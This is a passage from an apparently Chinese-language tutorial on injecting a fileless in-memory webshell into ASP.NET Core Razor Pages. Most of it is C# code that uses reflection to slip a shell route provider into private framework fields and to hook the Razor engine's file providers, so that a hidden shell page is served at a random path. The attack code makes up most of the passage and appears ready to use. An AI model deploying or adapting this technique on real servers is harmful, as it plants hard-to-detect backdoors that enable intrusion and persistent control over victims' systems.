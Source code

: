 ```csharp
        var originalFileSystem = _fileProvidersValue.FirstOrDefault(i => i.GetType().FullName.Equals("Microsoft.Extensions.FileProviders.PhysicalFileProvider"));
        MyFileInfo.p = p;
        MyFileInfo.s = subpath;
        if (subpath.Contains("Shell_"))
        {
            var f = new MyFileInfo();
            f.Name = subpath;
            return f;
        }
        else
        {
            return  (IFileInfo)  originalFileSystem.GetType().GetMethod("GetFileInfo").Invoke(originalFileSystem, new object[]{ subpath });
        }
    }
    public IDirectoryContents GetDirectoryContents(string subpath) { return null; }
    public IChangeToken Watch(string filter) { return null; }
}
```

### 内存马注入
在Razor页面的上下文中，`HttpContext.RequestServices`是一个`IServiceProvider`实例，表示当前请求的依赖注入容器。可以通过`this.HttpContext.RequestServices.GetService()`访问在 `ConfigureServices` 方法中注册的服务的实例。服务的生命周期由依赖注入容器的配置决定。通过`RequestServices`获取的服务会遵循其在容器中配置的生命周期，常见的生命周期有以下几种：

+ `Transient` (瞬态)：每次请求时都会创建一个新的实例。使用 `GetService<T>()` 获取时，每次都会得到一个新的实例。
+ `Scoped` (作用域)：每个 HTTP 请求（或每个作用域）中，服务只会创建一次并共享。在请求的整个生命周期内，`GetService<T>()` 获取的服务是相同的实例，直到请求结束。
+ `Singleton` (单例)：应用程序的整个生命周期内，服务只有一个实例。无论如何通过 `RequestServices` 获取服务，都会得到同一个实例。

在上面内存马的实现中创建了一个`IPageRouteModelProvider`的实现类，这个类需要添加到`PageActionDescriptorProvider`的`_routeModelProviders`列表中，由于没有直接的接口进行添加所以需要反射修改字段。

```csharp
var pagePath = "/fakepath/" +  Guid.NewGuid().ToString("D");
var iActionDescriptorProviderList = (Microsoft.AspNetCore.Mvc.Abstractions.IActionDescriptorProvider[]) this.HttpContext.RequestServices.GetService(typeof(IEnumerable<>).MakeGenericType(typeof(Microsoft.AspNetCore.Mvc.Abstractions.IActionDescriptorProvider)));
var pageActionDescriptorProvider = iActionDescriptorProviderList.FirstOrDefault(m => m.GetType().FullName.Equals("Microsoft.AspNetCore.Mvc.RazorPages.Infrastructure.PageActionDescriptorProvider"));
var routeModelProvidersField = pageActionDescriptorProvider.GetType().GetField("_routeModelProviders", BindingFlags.Instance | BindingFlags.NonPublic);
var routeModelProviders = (Microsoft.AspNetCore.Mvc.ApplicationModels.IPageRouteModelProvider[]) routeModelProvidersField.GetValue(pageActionDescriptorProvider);
var _list = routeModelProviders.ToList();
_list.Add(new ShellPageRouteModelProvider(pagePath));
routeModelProvidersField.SetValue(pageActionDescriptorProvider, _list.ToArray());
```

接下来需要替换Razor视图引擎中的`FileSystem`

```csharp
var myFileFileProvider = new TestFileFileProvider();
var razorProjectEngine =this.HttpContext.RequestServices.GetService(typeof(Microsoft.AspNetCore.Razor.Language.RazorProjectEngine));
var fileSystem = razorProjectEngine.GetType().GetProperty("FileSystem").GetValue(razorProjectEngine);
var _fileProvider = fileSystem.GetType().GetField("_fileProvider", BindingFlags.NonPublic | BindingFlags.Instance).GetValue(fileSystem);
var _options = _fileProvider.GetType().GetField("_options", BindingFlags.NonPublic | BindingFlags.Instance).GetValue(_fileProvider);
var _fileProvidersProperty = _options.GetType().GetProperty("FileProviders");
var _fileProvidersValue = (List<Microsoft.Extensions.FileProviders.IFileProvider>) _fileProvidersProperty.GetValue(_options);
TestFileFileProvider.p = (Microsoft.AspNetCore.Razor.Language.RazorProjectFileSystem) fileSystem;
_fileProvidersValue.Add(myFileFileProvider);
```